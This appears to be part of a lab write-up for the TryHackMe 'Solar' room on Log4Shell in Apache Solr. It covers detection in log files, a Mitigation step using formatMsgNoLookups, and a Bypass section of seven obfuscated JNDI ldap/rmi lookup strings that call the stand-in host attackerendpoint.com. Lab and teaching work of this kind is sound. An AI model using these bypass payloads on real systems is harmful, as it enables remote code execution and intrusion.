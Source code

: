 ### Detection

After SSHing into the user account, we can locate the log files on the server.

![image](https://user-images.githubusercontent.com/63194321/146561658-22ceb7d8-a89e-40b9-ac10-384df934e561.png)

We can see these log files: 

![image](https://user-images.githubusercontent.com/63194321/146561855-e27dd2d4-00e2-4be2-9d8d-c60fe12bd351.png)

### Bypass

In addition to using the standard `JNDI` payloads you can also modify these to bypass application filters.

* ${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
* ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
* ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
* ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
* ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
* ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
* ${${::-j}ndi:rmi://attackerendpoint.com/}

Note the use of the protocol in the last one. This is also another valid technique that can be used with the utility -- feel free to experiment `rmi://marshalsec`

### Mitigation

To ease this work, you can configure it manually in `solr.in.sh` to prevent listening on the server's LDAP.

By adding the following to the end of the file.
> SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true" 

You can prevent listening on LDAP servers.

## Thankyou for reading!!!

### References

* https://blog.cloud365.vn/ldap/LDAP-part-1-gioi-thieu-ve-LDAP/
* https://qastack.vn/programming/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used
* https://tryhackme.com/room/solar



